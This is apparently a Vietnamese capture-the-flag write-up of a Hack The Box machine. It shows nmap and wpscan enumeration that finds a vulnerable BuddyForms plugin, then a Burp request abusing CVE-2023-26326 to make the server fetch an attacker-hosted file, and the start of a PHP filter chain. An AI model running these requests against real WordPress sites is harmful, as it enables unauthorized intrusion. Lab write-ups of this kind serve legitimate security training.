

<p align="center"></p>

# Alert Hackthebox
## Nmap, wpscan, burpsuite, php filter chain,
### Nmap
```
nmap -sC -sV -Pn -oA nmap/output 10.10.11.52
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
# Nmap 7.95 scan initiated Mon May  5 14:11:58 2025 as: /usr/lib/nmap/nmap --privileged -p- --min-rate=1000 -sC -sV -Pn -oA nmap/output 10.10.11.52
Nmap scan report for 10.10.11.52
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d4:15:77:1e:82:2b:2f:f1:cc:96:c6:28:c1:86:6b:3f (ECDSA)
|_  256 6c:42:60:7b:ba:ba:67:24:0f:0c:ac:5d:be:92:0c:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.62
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Did not follow redirect to http://blog.bigbang.htb/
Service Info: Host: blog.bigbang.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May  5 14:13:31 2025 -- 1 IP address (1 host up) scanned in 92.71 seconds

</pre>

### Mở trang tài khoản
<p align="center"></p>

### Check version bằng wpscan
```
wpscan -e ap --plugins-detection passive --url http://blog.bigbang.htb
```
Version buddy 2.7.7
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
[+] buddyforms
 | Location: http://blog.bigbang.htb/wp-content/plugins/buddyforms/
 | Last Updated: 2025-02-27T23:01:00.000Z
 | [!] The version is out of date, the latest version is 2.8.17
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 2.7.7 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.bigbang.htb/wp-content/plugins/buddyforms/readme.txt
</pre>
### Chạy lệnh POST trên burpsuite như sau theo lỗi cve [đây](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8)
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1552

action=upload_image_from_url&url=http:ip:port/test&id=1&accepted_files=image/gif

```
File `test` có nội dung sau `GIF89a` signature của GIF
```
GIF89aByPass
```
Sau khi chạy trả response có body
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-60.png","attachment_id":215}' | jq
{
  "status": "OK",
  "response": "http://blog.bigbang.htb/wp-content/uploads/2025/05/1-60.png",
  "attachment_id": 215
}
</pre>
<p align="center"></p>

### Dùng php filter chain để lọc signature trong Header thể  bypass filter để exploit [source](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py)
```
python3 php_filter_chain.py --chain GIF89a
```
<pre style="border: 1px solid #ccc; padding: 10px; border-radius: 5px;">
php://filter/convert.iconv.UTF8 .... 4-decode/resource=php://temp
</pre>